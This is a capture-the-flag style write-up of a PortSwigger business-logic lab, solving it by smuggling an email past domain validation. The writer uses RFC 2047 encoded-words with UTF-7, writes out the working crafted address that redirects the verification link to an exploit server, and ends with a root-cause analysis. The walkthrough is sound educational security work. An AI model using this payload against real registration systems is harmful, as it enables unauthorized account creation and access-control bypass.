

# Business Logic

---

### Bypassing access controls using email address parsing discrepancies (Expert)

---

#### Description:

#### This lab validates email addresses to prevent attackers from registering addresses from unauthorized domains. There is a parser discrepancy in the validation logic and library used to parse email addresses.

#### To solve the lab, exploit this flaw to register an account and delete `carlos`.

---

- First thing to do is to access the lab, and based on the description, I’m not given any credential, so I’ll skip the `My Account` button and move directly to `Register` button.
    
    
    
- From here, the application asks me to create an account, I notice a message saying `If you work for GinAndJuice, please use your @ginandjuice.shop email address` .
    
    
    
- Then I attempt to create an account using `test@gmail.com`  first, and the result shows that it only allow `ginandjuice.shop` domain.
    
    
    
- I change the email and resend the request, the result displays `Please check your emails for your account registration link` , meaning I’ve successfully created an account.
    
    
    
- But I have no way to reach the verification link because it’s sent to that `ginandjuice.shop` domain, not mine.
    
    
    
- So, in order to solve this lab, I will utilize a vulnerability called `parser discrepancy`  based on the research `Splitting the Email Atom: Exploiting Parsers to Bypass Access Controls` for the purpose of tricking the server into sending the verification link to where I can access while still treating me as a valid domain.
- Link: [https://portswigger.net/research/splitting-the-email-atom](https://portswigger.net/research/splitting-the-email-atom)
- The primary exploitation technique involves leveraging discrepancies between multiple parser layers. I need to craft an email that appears to be valid to Parser A (used for validation and permission checks), but when Parser B (the actual mail-sending system) reads it, it resolves to a completely different domain, leading to the verification link being sent to my controlled server.
- If I follow what’s been described so far, the email would look like this: `attacker@[MY-EXPLOIT-SERVER-ID] @ginandjuice.shop` , but having 2 `@` and even a `white-space` in an email just looks weird, and of course it’s invalid.
- So I need a way to represent an email address in an encoded form, so that different parsers may interpret the same input differently.
- This is where RFC 2047 comes into play. RFC 2047 defines a mechanism called an `encoded-word`, which allows certain parts of an email header to be represented in an encoded form.
- An encoded-word follows this structure: `=?charset?encoding?encoded-text?=`
    - `=?` : start delimiter
    - `charset`: the character set used for decoding (utf-8, utf-7,…)
    - `encoding` : the encoding type (Q - Quoted-printable, similar to URL encoding, B - Base64)
    - `encoded-text` : the encoded content
    - `?=` : end delimiter
- From here, I’ll try some charset to see how the application handles them.
    - ISO-8859-1 charset:
    - Using the email `=?iso-8859-1?q?=61=62=63?=foo@ginandjuice.shop` , when decoded is will be `abcfoo@ginandjuice.shop` , although it looks normal but the server blocks it because of security reasons.
        
        
        
    - UTF-8 charset:
    - The same error displayed with `=?utf-8?q?=61=62=63?=foo@ginandjuice.shop`
        
        
        
    - UTF-7 charset:
    - Using this email `=?utf-7?q?&AGEAYgBj-?=foo@ginandjuice.shop` to register:
        - `&AGEAYgBj-` : is a UTF-7 shifted sequence. The content between `&` and `-` uses UTF-7's modified Base64 encoding, which decodes to the characters `abc`
            
            
            
        - After fully decoded, it will be `abcfoo@ginandjuice.shop` just like those encoding above.
    - When sending this request using UTF-7 encoded email, the application displays `Please check your emails for your account registration link`  again, indicating the server doesn't recognize UTF-7 encoding as a security threat.
        
        
        
- After gathering the allowed charset, the final step is to encode the email.
- The final email looks like this:
- `=?utf-7?q?attacker&AEA-exploit-0a7600fb0433e81682cad26d0151000e.exploit-server.net&ACA-?=@ginandjuice.shop`
    - `&AEA-` : represents the `@`
    - `&ACA-` : represents the `white-space`
- After decoding it will be `attacker@exploit-0a7600fb0433e81682cad26d0151000e.exploit-server.net ?=@ginandjuice.shop`
- When the validation system read it and see it ends with the domain `ginandjuice.shop` , considering as valid and pass the checking.
- However, the actual mail delivery system automatically decodes the `encoded-word` before determining the destination address, after the encoded-word segment is decoded, the remaining part (`ginandjuice.shop`) remains attached, but because of the `white-space` inserted in the middle, the two parts are syntactically separated, this causes the mail server to interpret only the portion before the `white-space` (`attacker@exploit-0a7600fb0433e81682cad26d0151000e.exploit-server.net`)  as the actual recipient address, while treating `?=@ginandjuice.shop` as extraneous data or an invalid comment and ignoring it. Leading to sending verification link straight to my controlled server instead of the approved domain.
    
    
    
- Now go visit the exploit server and I got verification link.
    
    
    
- Click it to get verified, then I go log in with that account.
    
    
    
- After that, I go to the admin panel to delete `carlos` and the lab has been solved.
    
    
    
- Root cause:
    - Parser discrepancy between validation and delivery layers: the
    registration form validates the raw, undecoded email string against
    an allowed domain, while the actual mail-sending library decodes
    RFC 2047 encoded-word (and UTF-7 within it) before determining the
    real recipient. The two components disagree on what the "real"
    email address is.
    - Domain-only authorization: the app trusts the email domain alone as
    proof of organizational membership, with no secondary verification,
    so any successful parser confusion directly translates into an
    access control bypass.
    - Overly permissive/legacy encoding support: RFC 2047 and UTF-7 are
    decades-old, rarely-used-in-practice standards that most modern apps
    don't expect users to send, yet the mail library still honors them
    by default, giving attackers a wide, under-tested surface to hide
    payloads in.
